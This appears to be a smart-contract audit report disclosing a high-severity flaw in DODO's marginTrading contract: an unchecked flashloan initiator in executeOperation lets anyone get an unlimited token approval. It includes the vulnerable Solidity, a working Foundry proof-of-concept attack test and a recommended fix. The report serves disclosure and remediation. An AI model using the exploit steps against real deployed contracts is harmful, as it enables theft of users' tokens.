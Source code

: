 0xHati

high

# Any tokens held in a user marginTrading contract can be stolen

## Summary
If a user holds funds in his `marginTrading` contract, they can be stolen. It's very likely the contract holds tokens since it's used to actively manage his positions and it's also the contract which will receive borrowed tokens. The `marginTrading` contract lets users execute a flashloan, and the contract has the callback function. However there is no check in the callback function that the `marginTrading` or `marginTradingFactory` contract initiated the flashloan. 

## Vulnerability Detail
For a user it's possible to execute a flashloan on Aave via the the `marginTradingFactory` or the `marginTrading` contract. In the `marginTrading` contract this is done via `executeFlashLoans` which then calls the lendingPool to start a flashloan. Note that in Aave depending on the parameters passed this is not always necessarily a flashloan but can be a regular deposit as well to open a position. Aave calls the callback function `executeOperation` where any logic can be done. 

It's possible to open or close a trade depending on the decoded parameters it gets from the aave callback. 

The problem is that the `executeOperation` doesn't check who started the flashloan. More specifically this is how the attack could happen:

1. Attacker initiates a flashloan on aave, but with the victim his `marginTrading` address as receiver and the attacker his address as `swapApproveTarget`
2. Pass in all tokens the victim has and a deposit amount of 0
3. During the `executeOperation` the `marginTrading` will approve the tokens and does a 0 deposit
4. Attacker can withdraw all funds

See the code snippets for details on how this would work.

This makes it possible for an attacker to initiate the flashloan, pass in any tokens the contract holds and set the approval to any address he wants by using `_swapApproveTarget`.

## Impact

## Code Snippet

This is the callback function which is called by aave and receives an `_initiator`, however there is no check on who iniated. Anyone can initiate with the `marginTrading` account as receiver.
```solidity
function executeOperation(
        address[] calldata _assets,
        uint256[] calldata _amounts,
        uint256[] calldata _premiums,
        address _initiator,
        bytes calldata _params
    ) external override onlyLendingPool returns (bool) {
        //decode params exe swap and deposit
        {
            (
                uint8 _flag,
                address _swapAddress,
                address _swapApproveTarget,
                address[] memory _swapApproveToken,
                bytes memory _swapParams,
                address[] memory _tradeAssets,
                address[] memory _withdrawAssets,
                uint256[] memory _withdrawAmounts,
                uint256[] memory _rateMode,
                address[] memory _debtTokens
            ) = abi.decode(
                _params,
                (uint8, address, address, address[], bytes, address[], address[], uint256[], uint256[], address[])
            );
            if (_flag == 0 || _flag == 2) {
                //close
                _closetrade(
                    _flag,
                    _swapAddress,
                    _swapApproveTarget,
                    _swapApproveToken,
                    _swapParams,
                    _tradeAssets,
                    _withdrawAssets,
                    _withdrawAmounts,
                    _rateMode,
                    _debtTokens
                );
            }
            if (_flag == 1) {
                //open
                _opentrade(_swapAddress, _swapApproveTarget, _swapApproveToken, _swapParams, _tradeAssets);
            }
        }
        return true;
    }
```
The function that gets called.  It approves different tokens for `_swapApproveTarget`. This can be chosen by the attacker to approve tokens that the `marginTrading` contract holds or any other tokens to himself.
```solidity
function _opentrade(
        address _swapAddress,
        address _swapApproveTarget,
        address[] memory _swapApproveToken,
        bytes memory _swapParams,
        address[] memory _tradeAssets
    ) internal {
        if (_swapParams.length > 0) {
            // approve to swap route
            for (uint256 i = 0; i < _swapApproveToken.length; i++) {
                IERC20(_swapApproveToken[i]).approve(_swapApproveTarget, type(uint256).max);
            }

            (bool success,) = _swapAddress.call(_swapParams);
            require(success, "dodoswap fail");
        }
        uint256[] memory _tradeAmounts = new uint256[](_tradeAssets.length);
        for (uint256 i = 0; i < _tradeAssets.length; i++) {
            _tradeAmounts[i] = IERC20(_tradeAssets[i]).balanceOf(address(this));
            _lendingPoolDeposit(_tradeAssets[i], _tradeAmounts[i], 1);
        }
        emit OpenPosition(_swapAddress, _swapApproveToken, _tradeAssets, _tradeAmounts);
    }
```

This is the line which is especially important in the attack. [Link](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L267) to the code part.
```solidity
 IERC20(_swapApproveToken[i]).approve(_swapApproveTarget, type(uint256).max);
```

### POC
The mock of the lendingPool used by the team has set the receiver to `msg.sender`, however in Aave the receiver is the `receiverAddress` which is a parameter of the flashloan function call. So in order for this test to run you need to change the mock. 
 ```solidity
IFlashLoanReceiver(msg.sender).executeOperation(assets, amounts, _premiums, msg.sender, params);
```
```solidity
IFlashLoanReceiver(receiverAddress).executeOperation(assets, amounts, _premiums, msg.sender, params);
```
See the [Aave docs](https://docs.aave.com/developers/v/2.0/the-core-protocol/lendingpool#flashloan).

```solidity
function testAttackFlashLoan() public {
        vm.prank(user1);
        address marginTrading = createMarginTradingContract();
        vm.startPrank(user2, user2);
        uint256 depositAmt = 100 ether;
        uint256 borrowAmt = 1 ether;

        address[] memory _assets = new address[](1);
        uint256[] memory _amounts = new uint256[](1);
        uint256[] memory _modes = new uint256[](1);

        _assets[0] = address(weth);
        _amounts[0] = 0;
        _modes[0] = 1;
        address _mainToken = address(weth);

        bytes memory executeParams;
        {
            address[] memory _withdrawAssets = new address[](1);
            uint256[] memory _withdrawAmounts = new uint256[](1);
            uint256[] memory _rateMode = new uint256[](0);
            address[] memory _debtTokens = new address[](1);
            //attacker can pass in all tokens he wants
            address[] memory _swapApproveToken = new address[](1);
            _swapApproveToken[0] = address(weth);
            address[] memory _tradeAssets = new address[](1);
            _tradeAssets[0] = address(dai);
            executeParams = encodeExecuteParams(
                1, //open trade
                address(0), //_swapAddress
                user2, //swapApproveTarget (attacker address)
                _swapApproveToken, //list of tokens that will approve the attacker
                bytes("not empty"),
                _tradeAssets,
                _withdrawAssets,
                _withdrawAmounts,
                _rateMode,
                _debtTokens
            );
        }
        //initiate flashLoan but with amount 0, we just want to get approval
        lendingPool.flashLoan(marginTrading, _assets, _amounts, _modes, marginTrading, executeParams, 0);
        vm.stopPrank();

        assertEq(weth.allowance(marginTrading, user2), type(uint256).max);
    }
```
## Tool used

Manual Review

## Recommendation
Verify in the `executeOperation` function that the `_initiator` is either the `owner()`, the `_USER` or the `marginTrading` itself.
